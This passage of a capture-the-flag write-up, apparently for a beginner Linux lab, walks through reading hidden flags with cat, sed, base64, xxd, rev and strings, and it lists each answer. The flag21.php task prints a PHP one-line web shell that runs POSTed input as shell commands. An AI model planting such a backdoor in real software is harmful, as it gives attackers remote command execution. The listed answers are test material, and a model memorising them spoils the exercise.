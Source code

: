 ```bash
-rw-rw-r-- 1 alice alice 10560 Feb 19  2019 flag32.mp3
-rw------- 1 alice alice    32 Feb 19  2019 .lesshst
-rw-r--r-- 1 alice alice   655 Feb 18  2019 .profile
drw-r--r-- 2 alice alice  4096 Mar  7  2019 .ssh
-rw------- 1 alice alice  3075 Feb 19  2019 .viminfo
alice@ip-10-10-65-10:~$ cat .flag18
c6522bb26600d30254549b6574d2cef2
```
Answer: c6522bb26600d30254549b6574d2cef2

**#9 Read the 2345th line of the file that contains flag 19.**
```bash
alice@ip-10-10-65-10:~$ sed -n 2345p flag19 
490e69bd1bf3fc736cce9ff300653a3b
```
Answer: 490e69bd1bf3fc736cce9ff300653a3b

# [Task 4] Data Representation, Strings and Permissions

**#1 Find and retrieve flag 20.**
```bash
alice@ip-10-10-65-10:~$ cat flag20 | base64 -d
02b9aab8a29970db08ec77ae425f6e68
```
Answer: 02b9aab8a29970db08ec77ae425f6e68

**#2 Inspect the flag21.php file. Find the flag.**
```bash
alice@ip-10-10-65-10:~$ vim /home/bob/flag21.php

<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>
```
Answer: g00djob

**#3 Locate and read flag 22. Its represented as hex.**
```bash
alice@ip-10-10-65-10:~$ cat flag22 | xxd -r -p
9d1ae8d569c83e03d8a8f61568a0fa7d
```
Answer: 9d1ae8d569c83e03d8a8f61568a0fa7d

**#4 Locate, read and reverse flag 23.**
```bash
alice@ip-10-10-65-10:~$ cat flag23 | rev
ea52970566f4c090a7348b033852bff5
```
Answer: ea52970566f4c090a7348b033852bff5

**#5 Analyse the flag 24 compiled C program. Find a command that might reveal human readable strings when looking in the source code.**
```bash
alice@ip-10-10-65-10:~$ find / -name flag24* -print 2>/dev/null
/home/garry/flag24
alice@ip-10-10-65-10:~$ cat /home/garry/flag24 | strings
/lib64/ld-linux-x86-64.so.2
libc.so.6
printf
__libc_start_main
__gmon_start__
GLIBC_2.2.5
UH-8
AWAVA
AUATL
[]A\A]A^A_
Nothing to see here!!
;*3$"
GCC: (Ubuntu 5.4.0-6ubuntu1~16.04.11) 5.4.0 20160609
```